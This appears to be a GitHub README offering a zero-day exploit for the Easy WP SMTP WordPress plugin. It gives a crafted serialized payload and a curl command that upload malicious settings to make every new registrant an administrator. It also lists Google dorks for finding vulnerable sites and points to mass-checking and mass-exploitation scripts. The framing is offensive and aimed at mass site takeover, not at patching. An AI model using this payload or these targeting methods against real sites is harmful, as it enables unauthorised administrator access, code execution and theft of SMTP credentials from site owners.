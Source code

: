 # WordPress-Easy-WP-SMTP-plugin-0day

The popular Easy WP SMTP plugin, which as 300,000+ active installations, was prone to a critical zero-day vulnerability that allowed an unauthenticated user to modify WordPress options or to inject and execute code among other malicious actions.

admin_init() function, from the easy-wp-smtp.php script, is ran via the admin_init hook when a user accesses the admin area. It is used to view/delete the log, import/export the plugin configuration and to update options in the WordPress database. It does not check the user capability, hence any logged in user, such as a subscriber, could trigger it.

# Proof of Concept:

In the following proof of concept, Its going to use swpsmtp_import_settings to upload a file that will contain a malicious serialized payload that will enable users registration (users_can_register) and set the user default role (default_role) to “administrator” in the database.

1. Create a file name “/tmp/upload.txt” and add this content to it:

> a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2. Upload the file:

>$ curl https://TARGET.COM/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

Other vulnerabilities could be exploited such as:

Remote Code Execution via PHP Object Injection because Easy WP SMTP makes use of unsafe unserialize() calls.
Viewing/deleting the log (or any file, since hackers can change the log filename).
Exporting the plugin configuration which includes the SMTP host, username and password and using it to send spam emails.

3. For mass-checker vuln site list:

> Use my python script: python script.py list.txt & dont forget to install libraries (pip install module).


4. Some GOOGLE DORKS:

DORK 1 | DORK 2 | DORK 3
------------ | ------------- | -------------
inurl:'/wp-content/plugins/easy-wp-smtp/' | intext:'Index of /wp-content/plugins/easy-wp-smtp' | intext:'=== Easy WP SMTP ==='

5. Mass exploiting python script:

> Soon ;)
